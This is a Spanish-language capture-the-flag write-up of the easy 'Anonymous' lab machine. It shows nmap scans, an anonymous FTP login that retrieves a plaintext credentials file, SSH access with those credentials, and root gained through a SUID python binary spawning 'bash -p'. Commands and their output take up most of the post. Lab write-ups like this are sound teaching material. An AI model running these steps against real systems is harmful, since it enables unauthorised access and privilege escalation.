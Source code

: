 ```yaml
---
layout: post
title: Anonymous
subtitle: Plataforma MiraSoyRoot Dificultad Fácil
cover-img: /assets/img/anonymous.png
thumbnail-img: /assets/img/anonymous.png
share-img: /assets/img/anonymous.png
author: Elmili72
---
```


![anonymous](https://github.com/user-attachments/assets/b6c1a383-28d0-46ff-baba-711301e4fe4e)

## Escaneo general de puertos

Como siempre, para empezar realizamos un escaneo general de los puertos que pudieran estar abiertos en nuestra máquina.

```bash
❯ sudo nmap -sS -p- --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allports
Host is up, received arp-response (0.0000020s latency).
Scanned at 2025-06-23 16:51:45 CEST for 0s
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE REASON
21/tcp open  ftp     syn-ack ttl 64
22/tcp open  ssh     syn-ack ttl 64
MAC Address: 02:42:AC:11:00:02 (Unknown)
```

## Escaneo específico de puertos

Conocidos los puertos abiertos podemos realizar un escaneo específico para conocer los servicios y las versiones. En este caso los puertos 21 (FTP) y 22 (SSH). Cabe destacar que nos permite el inicio de sesión con  el usuario *anonymous*, por lo que podemos entrar al servicio y exfiltrar información relevante.

```bash
❯ nmap -sCV -p21,22 172.17.0.2 -oN target
Host is up (0.000045s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| -rw-r--r--    1 0        0              38 Feb 18 09:02 credenciales.txt
|_drwxrwxrwx    2 0        0            4096 Feb 18 09:02 uploads [NSE: writeable]
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 172.17.0.1
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u4 (protocol 2.0)
| ssh-hostkey: 
|   256 bb:2c:f0:4d:f3:f1:66:9b:24:ac:ea:3a:b7:68:18:7c (ECDSA)
|_  256 be:1b:55:29:51:a5:94:3e:b0:fc:d9:b7:98:9d:06:c5 (ED25519)
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

## Reconocimiento Servicio FTP

En la enumeración del FTP tenemos un archivo interesante que es *crendenciales.txt*. Que para nuestra suerte nos da crenciales como el propio nombre indica.

```bash
❯ ftp 172.17.0.2
Connected to 172.17.0.2.
220 (vsFTPd 3.0.3)
Name (172.17.0.2:elmili): anonymous
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||23955|)
150 Here comes the directory listing.
-rw-r--r--    1 0        0              38 Feb 18 09:02 credenciales.txt
drwxrwxrwx    2 0        0            4096 Feb 18 09:02 uploads
226 Directory send OK.
ftp> get credenciales.txt
local: credenciales.txt remote: credenciales.txt
229 Entering Extended Passive Mode (|||48922|)
150 Opening BINARY mode data connection for credenciales.txt (38 bytes).
100% |*******************************************************************************************************************************|    38      537.81 KiB/s    00:00 ETA
226 Transfer complete.
38 bytes received in 00:00 (65.79 KiB/s)
```

```bash
❯ cat credenciales.txt
Usuario: yados
Contraseña: croissant
```

## Exploitación

Al no haber otra vulnerabilidad que nos permita lograr la intrusión probamos las credenciales directamente contra el SSH.
### Intrusión

Y estamos dentro del usuario *yados*.

```bash
❯ ssh yados@172.17.0.2
yados@172.17.0.2\'s password: 
Linux 7dec485919af 6.12.25-amd64 #1 SMP PREEMPT_DYNAMIC Kali 6.12.25-1kali1 (2025-04-30) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
yados@7dec485919af:~$ id
uid=1000(yados) gid=1000(yados) groups=1000(yados)
yados@7dec485919af:~$ whoami
yados
```

## Post-Explotación

Trar ver el archivo /etc/passwd y confirmar que no hay más usuarios para hacer pivoting pasamos directamente a la mejor parte de todo CTF. La escalada de privilegios :D.
### Escalada de Privilegios

No parece que exista la función *sudo*, por lo que directamente buscamos archivos con permisos *SUID*. Y vemos el binario */usr/local/bin/python*, así que vamos a explotarlo un poquito.

```bash
yados@7dec485919af:~$ find / -perm -4000 2>/dev/null
/usr/sbin/exim4
/usr/local/bin/python
/usr/bin/mount
/usr/bin/chfn
/usr/bin/passwd
/usr/bin/umount
/usr/bin/gpasswd
/usr/bin/chsh
/usr/bin/su
/usr/bin/newgrp
/usr/bin/sudo
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helpe
```

También vemos el binario sudo pero al no tener permisos de sudoers no podemos hacer nada con él a simple vista, por lo que continuamos con el binario de python.

```bash
yados@7dec485919af:~$ /usr/bin/sudo /bin/bash -p
[sudo] password for yados: 
yados is not in the sudoers file.
This incident has been reported to the administrator.
```

Para el que no esté familiarizado con este tipo de escalada recomiendo *GTFOBins*, que puede ser nuestro mejor amigo en estos casos. Y conseguimos el usuario *root* y leer el archivo *mirasoyroot.txt*.

```bash
yados@7dec485919af:~$ cd /tmp
yados@7dec485919af:/tmp$ mkdir privesc && cd privesc
yados@7dec485919af:/tmp/privesc$ /usr/local/bin/python -c 'import os; os.execl("/bin/bash", "bash", "-p")'
bash-5.2# whoami
root
bash-5.2# id
uid=1000(yados) gid=1000(yados) euid=0(root) groups=1000(yados)
bash-5.2# cd /root
bash-5.2# cat mirasoyroot.txt 
felicidades hacker lo has conseguido, si eres de los 3 primeros en completar la maquina hablamé por Instagram y te pondré en el podio
```

¡Espero que os haya gustado y os haya servido de ayuda! ¡Hasta el próximo writeup!
